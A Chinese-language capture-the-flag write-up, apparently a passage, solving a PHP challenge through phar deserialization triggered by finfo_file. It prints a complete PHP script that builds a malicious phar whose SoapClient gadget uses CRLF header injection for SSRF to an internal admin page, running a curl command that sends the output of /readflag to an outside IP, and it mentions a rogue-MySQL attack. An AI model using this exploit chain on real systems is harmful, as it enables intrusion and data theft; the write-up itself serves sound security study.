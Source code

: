 - 解法1

  看到源码之后不难发现，查看的函数非常特殊，是

  ```php
  $finfo = finfo_open(FILEINFO_MIME_TYPE);
  $this->type = finfo_file($finfo, $this->file_name);
  finfo_close($finfo);
  ```

  然后猜测是phar反序列化，为什么没有继续研究这个函数就可以知道了，这是来自于一个ctf赛狗的直觉。然后剩下的其实就没有什么难度，

  ![image-20220126180820632](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220126180820632.png)

可以触发__call方法，我们要做的就是顺着这个思路继续做下去，ssrf就可以了。

```php
<?php
$phar = new Phar('333.phar');
$phar->startBuffering();
$phar->addFromString('333.txt','text');
$phar->setStub('<script language="php">__HALT_COMPILER();</script>');

class File {
    public $file_name = "";
    public $func = "SoapClient";

    function __construct(){
        $target = "http://127.0.0.1/admin.php";
        $post_string = 'admin=1&cmd=curl "http://8.142.93.103"."?`/readflag`"&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3='. "\r\n";
        $headers = [];
        $this->file_name  = [
            null,
            array('location' => $target,
                  'user_agent'=> str_replace('^^', "\r\n", 'xxxxx^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string),
                  'uri'=>'hello')
        ];
    }
}
$object = new File;
echo urlencode(serialize($object));
$phar->setMetadata($object);
$phar->stopBuffering();
```

- 解法2

  ![image-20220126180926609](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220126180926609.png)

利用这里我们可以伪造一个mysql请求，利用rogue-mysql攻击来。但其实我没有理解这个有什么用...

出题笔记:https://xz.aliyun.com/t/6057
